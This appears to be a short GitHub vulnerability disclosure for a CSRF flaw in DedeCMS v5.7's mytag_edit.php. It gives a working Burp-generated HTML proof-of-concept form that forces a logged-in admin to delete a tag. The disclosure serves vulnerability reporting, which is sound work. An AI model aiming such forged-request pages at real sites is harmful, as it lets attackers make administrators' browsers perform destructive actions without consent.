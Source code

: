 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/mytag_edit.php
![1](https://github.com/Hckwzh/cms/assets/128144400/34c775bd-8340-4516-ac43-55d361c012f4)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/mytag_edit.php">
      <input type="hidden" name="aid" value="1" />
      <input type="hidden" name="dopost" value="delete" />
      <input type="hidden" name="token" value="1dd74d6f9fa3b00bfb2666071c8d8ace" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>






```
![2](https://github.com/Hckwzh/cms/assets/128144400/ed73407e-80f0-464a-8d1b-daa6d3ebed68)



successed
![3](https://github.com/Hckwzh/cms/assets/128144400/14050033-9987-4da4-bf3d-0fcfa4fa5f29)
